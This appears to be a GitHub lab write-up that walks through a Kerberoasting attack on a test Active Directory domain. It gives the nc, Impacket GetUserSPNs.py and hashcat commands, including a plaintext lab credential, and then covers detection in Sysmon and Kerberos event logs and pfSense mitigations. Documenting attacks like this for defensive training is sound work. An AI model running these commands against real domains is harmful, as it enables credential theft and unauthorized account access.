 # Active Directory Attack Playbook (Kerberos-based SPN Extraction and Credential Compromise)

## **Overview**

- **Target:** Active Directory Domain Controller (within the soc.lab domain)
   - IP Address: 192.168.10.10
   - Domain: SOC.LAB
   - 
- **Attacker:** Kali 
   - IP Address: 192.168.20.30
## **Objective** 
The objective of this attack was to enumerate and extract Service Principal Names (SPNs) from the Active Directory environment and attempt to crack the Kerberos TGS hashes to gain unauthorized access to domain accounts.
Following the other attacks, we are already know the credentials from an User and the Active Directory Domain.

## Attack Execution Timeline:

- Checked that Kerberos (port 88) is open:
```bash
nc -vz 192.168.10.10 88
```
- Update the default DNS ip to point directly to the Domain Controller.

- Run GetUserSPNs.py from the mpacket toolkit to request SPNs and attempt Kerberos TGS hash extraction:
```bash
python3 GetUserSPNs.py SOC.LAB/labadmin:Root1234! -request
```
Output:

![hash](https://github.com/user-attachments/assets/25122eab-7eb9-4de7-a62d-2ceeda7e50c9)

- After that I cracked the Kerberos TGS Hash using hashcat with rockyou.txt, and saved on a cracked.txt file:
```bash
hashcat -m 13100 spn_hash.txt /usr/share/wordlists/rockyou.txt --force -o cracked.txt
```



## **Monitoring Windows Logs**

I started watching Sysmon Logs Analysis and identified multiple Event ID 3 entries in Sysmon logs, which makes it suspisious, knowing its coming from the same IP, and from external zone (DMZ): 

- All connections originated from IP 192.168.10.10, targeting 192.168.20.30.

- Different ephemeral ports were used, suggesting automated scanning or even communication.

![multipleSysmonlogs](https://github.com/user-attachments/assets/01ab753c-f8f0-42d1-8882-62f2a652937a)



With that, I went through Windows Logs Security, and found multiple found a large number of **Event ID 4769 – Kerberos Service Ticket Request**, from the same source as well:

- ![kerberos_tickets](https://github.com/user-attachments/assets/9275278e-067c-466c-a2bd-3fc551e18f81)



And as we can see in the screenshots output from the logs, the same IP: 192.168.20.30 requested multiple Kerberos Service Tickets (Event ID 4769) for various user accounts in the SOC.LAB domain. This pattern of activity suggests the use of a **Kerberoasting attack**, where the attacker queries the Service Principal Names (SPNs) associated with these accounts to obtain encrypted TGS (Ticket Granting Service) hashes, which we already know he did.

- User Jordan:
  - ![Jordan](https://github.com/user-attachments/assets/4aab463d-1130-48ea-affc-d23800dd389f)

- User Candace:
  - ![candace_rojas](https://github.com/user-attachments/assets/0fa652ef-089b-4bde-97b4-280412b502bf)

And finally, right after the last Kerberos Service Ticket Request, we see an Event ID 4634 – Logoff, from the user labadmin, so with that, we know whose password was first compromised to successfully request all this content.

## **Firewall Rules on pfSense to Mitigate this:**
1- Block Unauthorized Kerberos Requests:
  Screenshot da rule no pfsense....

  This rule blocks any Kerberos traffic (port 88) from devices that are not domain controllers, which prevents unauthorized users from interacting with the Kerberos service and reduces the risk of Kerberoasting.

2- Limit External and Internal LDAP Queries:

Screenshot da rule.......

This prevents attackers from using LDAP enumeration tools (like GetUserSPNs.py), a well knowed script, to extract Service Principal Names. LDAP is only needed for trusted systems—blocking it for regular users reduces exposure, like we've just seen.

Note: In this experiment, CrowdSec was disabled to allow this action to proceed.
